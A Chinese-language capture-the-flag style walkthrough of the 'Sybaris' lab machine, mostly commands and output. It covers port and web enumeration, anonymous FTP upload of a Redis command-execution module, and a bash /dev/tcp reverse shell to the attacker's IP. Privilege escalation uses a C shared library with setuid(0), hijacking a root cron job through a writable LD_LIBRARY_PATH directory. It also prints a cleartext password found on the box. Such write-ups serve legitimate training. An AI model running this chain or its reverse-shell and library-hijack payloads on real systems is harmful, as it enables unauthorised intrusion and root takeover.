




# 端口枚举

> 在此处使用了一个新的脚本，nmapAutomator， 来源GitHub：https://github.com/21y4d/nmapAutomator

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script/nmapAutomator]
└─$ ./nmapAutomator.sh -H 192.168.151.93 -t full                                   
---------------------Starting Full Scan------------------------
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
Making a script scan on all ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.194
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 21:94:de:d3:69:64:a8:4d:a8:f0:b5:0a:ea:bd:02:ad (RSA)
|   256 67:42:45:19:8b:f5:f9:a5:a4:cf:fb:87:48:a2:66:d0 (ECDSA)
|_  256 f3:e2:29:a3:41:1e:76:1e:b1:b7:46:dc:0b:b9:91:77 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
|_http-generator: HTMLy v2.7.5
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-robots.txt: 11 disallowed entries 
| /config/ /system/ /themes/ /vendor/ /cache/ 
| /changelog.txt /composer.json /composer.lock /composer.phar /search/ 
|_/admin/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22
|_http-title: Sybaris - Just another HTMLy blog
6379/tcp open  redis   Redis key-value store 5.0.9
Service Info: OS: Unix

```

# FTP 21

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/sybaris]
└─$ ftp 192.168.151.93
Connected to 192.168.151.93.
220 (vsFTPd 3.0.2)
Name (192.168.151.93:aaron): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> passive
ftp> ls
229 Entering Extended Passive Mode (|||10097|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -al
229 Entering Extended Passive Mode (|||10093|).
150 Here comes the directory listing.
drwxrwxrwx    2 0        0               6 Apr 01  2020 .
drwxr-xr-x    3 0        0              17 Sep 04  2020 ..
226 Directory send OK.
ftp> ls -al
229 Entering Extended Passive Mode (|||10099|).
150 Here comes the directory listing.
drwxr-xr-x    3 0        0              17 Sep 04  2020 .
drwxr-xr-x    3 0        0              17 Sep 04  2020 ..
drwxrwxrwx    2 0        0               6 Apr 01  2020 pub
ftp> exit
221 Goodbye.

```

FTP端口并没有给出有效的信息

# HTTP 80

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/sybaris]
└─$ feroxbuster --url "http://192.168.151.93"           
200      GET       25l       38w      507c http://192.168.151.93/composer.json
200      GET      259l      493w     9019c http://192.168.151.93/composer.lock
```

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/sybaris]
└─$ gobuster dir -u "http://192.168.151.93" -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt 
/cache                (Status: 301) [Size: 236] [--> http://192.168.151.93/cache/]
/admin                (Status: 302) [Size: 0] [--> /login]
/themes               (Status: 301) [Size: 237] [--> http://192.168.151.93/themes/]
/logout               (Status: 302) [Size: 0] [--> /login]
/login                (Status: 200) [Size: 3046]
/config               (Status: 403) [Size: 208]
/content              (Status: 301) [Size: 238] [--> http://192.168.151.93/content/]
/lang                 (Status: 301) [Size: 235] [--> http://192.168.151.93/lang/]
/system               (Status: 301) [Size: 237] [--> http://192.168.151.93/system/]
/index                (Status: 200) [Size: 7870]
/front                (Status: 301) [Size: 0] [--> /]
/Index                (Status: 200) [Size: 7870]

```


基本上所有的路径都无法进行访问



`composer.json` 也并没有返回有效的信息

# Redis 6379

但是通过6379端口可以直接登录redis

```sql
┌──(aaron㉿aacai)-[~/Desktop/pg/sybaris/RedisModules-ExecuteCommand]
└─$ redis-cli -h 192.168.151.93
192.168.151.93:6379> INFO
# Server
redis_version:5.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9733bb2c985e86cb
redis_mode:standalone
os:Linux 3.10.0-1127.19.1.el7.x86_64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:4.8.5
process_id:904
run_id:140f86b120445802001180925a5c6557d8e43c68
tcp_port:6379
uptime_in_seconds:1088754
uptime_in_days:12
hz:10
configured_hz:10
lru_clock:14283935
executable:/usr/local/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:575712
...

# Persistence
loading:0
...

# Stats
total_connections_received:4
...

# Replication
role:master
...
# CPU
...

# Cluster
cluster_enabled:0

# Keyspace

```

跟着HackTricks里面的Redis RCE尝试写入一个`phpinfo()`

https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#php-webshell



但是这出错了, 不过根本难不倒我，接着尝试去加载一个模块，从github上面下载并编译源代码。

https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/sybaris]
└─$ git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
Cloning into 'RedisModules-ExecuteCommand'...
remote: Enumerating objects: 494, done.
remote: Counting objects: 100% (117/117), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 494 (delta 101), reused 100 (delta 100), pack-reused 377
Receiving objects: 100% (494/494), 203.32 KiB | 738.00 KiB/s, done.
Resolving deltas: 100% (289/289), done.
                                                                                                                                                          
┌──(aaron㉿aacai)-[~/Desktop/pg/sybaris]
└─$ cd RedisModules-ExecuteCommand 
┌──(aaron㉿aacai)-[~/Desktop/pg/sybaris/RedisModules-ExecuteCommand]
└─$ make                      
make -C ./src
make[1]: Entering directory '/home/aaron/Desktop/pg/sybaris/RedisModules-ExecuteCommand/src'
make -C ../rmutil
make[2]: Entering directory '/home/aaron/Desktop/pg/sybaris/RedisModules-ExecuteCommand/rmutil'
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o util.o util.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o strings.o strings.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o sds.o sds.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o vector.o vector.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o alloc.o alloc.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o periodic.o periodic.c
ar rcs librmutil.a util.o strings.o sds.o vector.o alloc.o periodic.o
make[2]: Leaving directory '/home/aaron/Desktop/pg/sybaris/RedisModules-ExecuteCommand/rmutil'
gcc -I../ -Wall -g -fPIC -lc -lm -std=gnu99     -c -o module.o module.c
ld -o module.so module.o -shared -Bsymbolic  -L../rmutil -lrmutil -lc 
make[1]: Leaving directory '/home/aaron/Desktop/pg/sybaris/RedisModules-ExecuteCommand/src'
cp ./src/module.so .
                                                                                                                              
┌──(aaron㉿aacai)-[~/Desktop/pg/sybaris/RedisModules-ExecuteCommand]
└─$ ls
LICENSE  Makefile  module.so  README.md  redismodule.h  rmutil  src

```

这个时候使用ftp去上传这个.so文件到`/var/ftp/pub`目录下, 因为通常情况来说ftp的默认路径就在`/var/ftp`, 进行尝试.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/sybaris/RedisModules-ExecuteCommand]
└─$ ftp 192.168.151.93
Connected to 192.168.151.93.
220 (vsFTPd 3.0.2)
Name (192.168.151.93:aaron): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd pub
250 Directory successfully changed.
ftp> put module.so 
local: module.so remote: module.so
229 Entering Extended Passive Mode (|||10099|).
150 Ok to send data.
100% |*********************************************************************************| 47840       91.01 KiB/s    00:00 ETA
226 Transfer complete.
47840 bytes sent in 00:01 (45.34 KiB/s)
ftp> 
```

通过ftp成功上传了，接着尝试使用redis去加载这个模块.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/sybaris/RedisModules-ExecuteCommand]
└─$ redis-cli -h 192.168.151.93
192.168.151.93:6379> module load '/var/ftp/pub/module.so'
OK
192.168.151.93:6379> module list
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1
192.168.151.93:6379> system.exec "id"
"uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\n"
192.168.151.93:6379> system.exec "whoami"
"pablo\n"
192.168.151.93:6379> 

```

ok!它能够执行命令，接着去反弹shell。

```bash
192.168.151.93:6379> system.exec "which nc;which python3;which python2;which python"
"/usr/bin/python2\n/usr/bin/python\n"
192.168.151.93:6379> system.exec "/bin/bash -i >& /dev/tcp/192.168.45.194/80 0>&1"
```



# PE

```bash
═══════════════════════════════╣ Basic information╠═══════════════════════════════                                 
OS: Linux version 3.10.0-1127.19.1.el7.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-39) (GCC) ) #1 SMP Tue Aug 25 17:23:54 UTC 2020
User & Groups: uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)
Hostname: sybaris
Writable folder: /dev/shm
[+] /usr/bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)                                                                                 
[+] /usr/bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)  

══════════════════════════════╣ System Information ╠══════════════════════════════                                                           
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                  
Linux version 3.10.0-1127.19.1.el7.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-39) (GCC) ) #1 SMP Tue Aug 25 17:23:54 UTC 2020
lsb_release Not Found
                                                                                                                    
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                     
Sudo version 1.8.23                                                                                                 


╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                              
uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)
uid=11(operator) gid=0(root) groups=0(root)
uid=12(games) gid=100(users) groups=100(users)
uid=14(ftp) gid=50(ftp) groups=50(ftp)
uid=192(systemd-network) gid=192(systemd-network) groups=192(systemd-network)
uid=1(bin) gid=1(bin) groups=1(bin)
uid=2(daemon[0m) gid=2(daemon[0m) groups=2(daemon[0m)
uid=3(adm) gid=4(adm) groups=4(adm)
uid=48(apache) gid=48(apache) groups=48(apache)
uid=4(lp) gid=7(lp) groups=7(lp)
uid=5(sync) gid=0(root) groups=0(root)
uid=6(shutdown) gid=0(root) groups=0(root)
uid=74(sshd) gid=74(sshd) groups=74(sshd)
uid=7(halt) gid=0(root) groups=0(root)
uid=81(dbus) gid=81(dbus) groups=81(dbus)
uid=89(postfix) gid=89(postfix) groups=89(postfix),12(mail)
uid=8(mail) gid=12(mail) groups=12(mail)
uid=998(chrony) gid=996(chrony) groups=996(chrony)
uid=999(polkitd) gid=998(polkitd) groups=998(polkitd)
uid=99(nobody) gid=99(nobody) groups=99(nobody)


═════════════════════════════╣ Software Information ╠═════════════════════════════ ╔══════════╣ Useful software
/usr/bin/base64                                                                                                     
/usr/bin/curl
/usr/bin/gcc
/usr/bin/make
/usr/bin/perl
/usr/bin/php
/usr/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/sudo
/usr/bin/wget


╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs                              
/usr/bin/crontab                                                                                                    
incrontab Not Found
-rw-------. 1 root root   0 Aug  8  2019 /etc/cron.deny                                                             
-rw-r--r--. 1 root root 572 Sep  7  2020 /etc/crontab

/etc/cron.d:
total 16
drwxr-xr-x.  2 root root   21 Sep  4  2020 .
drwxr-xr-x. 81 root root 8192 Sep 24  2020 ..
-rw-r--r--.  1 root root  128 Aug  8  2019 0hourly

/etc/cron.daily:
total 20
drwxr-xr-x.  2 root root   42 Sep  4  2020 .
drwxr-xr-x. 81 root root 8192 Sep 24  2020 ..
-rwx------.  1 root root  219 Mar 31  2020 logrotate
-rwxr-xr-x.  1 root root  618 Oct 30  2018 man-db.cron

/etc/cron.hourly:
total 16
drwxr-xr-x.  2 root root   22 Jun  9  2014 .
drwxr-xr-x. 81 root root 8192 Sep 24  2020 ..
-rwxr-xr-x.  1 root root  392 Aug  8  2019 0anacron

/etc/cron.monthly:
total 12
drwxr-xr-x.  2 root root    6 Jun  9  2014 .
drwxr-xr-x. 81 root root 8192 Sep 24  2020 ..

/etc/cron.weekly:
total 12
drwxr-xr-x.  2 root root    6 Jun  9  2014 .
drwxr-xr-x. 81 root root 8192 Sep 24  2020 ..

/var/spool/anacron:
total 8
drwxr-xr-x. 2 root root 63 Sep  4  2020 .
drwxr-xr-x. 8 root root 87 Sep  4  2020 ..
-rw-------. 1 root root  9 Aug 14 05:07 cron.daily
-rw-------. 1 root root  0 Sep  4  2020 cron.monthly
-rw-------. 1 root root  9 Aug 14 05:27 cron.weekly
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""

```

查看web路径内是否有相关的配置文件或者密码

```bash
[pablo@sybaris ~]$ cd /var/www/html
[pablo@sybaris html]$ cd config
[pablo@sybaris config]$ cd users
[pablo@sybaris users]$ ls
pablo.ini
username.ini.example
[pablo@sybaris users]$ cat pablo.ini
password = PostureAlienateArson345
role = admin
[pablo@sybaris users]$ 

```

得到用户Pablo的密码，尝试使用Pablo去登录ssh



能够登录上来，但是发现用户Pablo并没有权限去运行`sudo`

查看计划任务.

```bash
[pablo@sybaris ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
  *  *  *  *  * root       /usr/bin/log-sweeper
[pablo@sybaris ~]$  /usr/bin/log-sweeper
/usr/bin/log-sweeper: error while loading shared libraries: utils.so: cannot open shared object file: No such file or directory
```

root用户有一个应用程序每分钟都在运行，尝试运行这个应用发现缺少一个`utils.so`文件，并且这里有 `LD_LIBRARY_PATH`路径可以使用，但是首先得查看是否可写入。

```bash
[pablo@sybaris ~]$ find / -type d -writable 2> /dev/null
/dev/mqueue
/dev/shm
/proc/2419/task/2419/fd
/proc/2419/fd
/proc/2419/map_files
/run/user/1000
/var/tmp
/var/log/redis
/var/ftp/pub
/tmp
/tmp/.X11-unix
/tmp/.font-unix
/tmp/.XIM-unix
/tmp/.Test-unix
/tmp/.ICE-unix
/usr/local/lib/dev
/home/pablo
```

路径 `/usr/local/lib/dev` 是可写的, 所以可以编一个`.so`文件并放到这里面来，首先尝试将proof放到pablo的home目录下

```c
1. 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() 
{
    setgid(0);
    setuid(0);
    system("bash -i >& /dev/tcp/192.168.45.202/80 0>&1");
}

2. 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() 
{
    setgid(0);
    setuid(0);
    system("cat /root/proof.txt > /home/pablo/proof.txt");
}
```

然后使用gcc进行编译.

```bash
[pablo@sybaris ~]$ cd /usr/local/lib/dev/
[pablo@sybaris dev]$ ls
[pablo@sybaris dev]$ cat <<EOL > pwn.c
> #include <stdio.h>
> #include <sys/types.h>
> #include <stdlib.h>
> void _init() 
> {
>     setgid(0);
>     setuid(0);
>     system("cat /root/proof.txt > /home/pablo/proof.txt");
> }
> EOL
[pablo@sybaris dev]$ gcc -shared -fPIC -nostartfiles pwn.c -o pwn.so
[pablo@sybaris dev]$ cp pwn.so utils.so
[pablo@sybaris dev]$ 
```

等一分钟

```bash
[pablo@sybaris dev]$ ls /home/pablo/
local.txt  proof.txt
[pablo@sybaris dev]$ 
```

发现proof已经到这个目录下来了，所以这个`.so`文件是正常被加载的

```bash
[pablo@sybaris dev]$ cat /home/pablo/proof.txt 
8e1ca7bdaa27f0f2ac7b754294b3a918
[pablo@sybaris dev]$ 
```

最后将其中执行的命令替换成反弹shell的命令，重新编译并且放到那个目录下。

```bash
[pablo@sybaris dev]$ vim pwn.c
[pablo@sybaris dev]$ gcc -shared -fPIC -nostartfiles pwn.c -o pwn.so
[pablo@sybaris dev]$ cp pwn.so utils.so
[pablo@sybaris dev]$ cat pwn.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() 
{
    setgid(0);
    setuid(0);
    system("bash -i >& /dev/tcp/192.168.45.202/80 0>&1");
}
[pablo@sybaris dev]$ 

```

再等一分钟，得到root的shell。

```bash
┌──(aaron㉿aaron)-[~/Desktop/script/redis/RedisModules-ExecuteCommand]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.202] from (UNKNOWN) [192.168.232.93] 50474
bash: no job control in this shell
[root@sybaris ~]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@sybaris ~]# whoami
whoami
root
[root@sybaris ~]# 
```

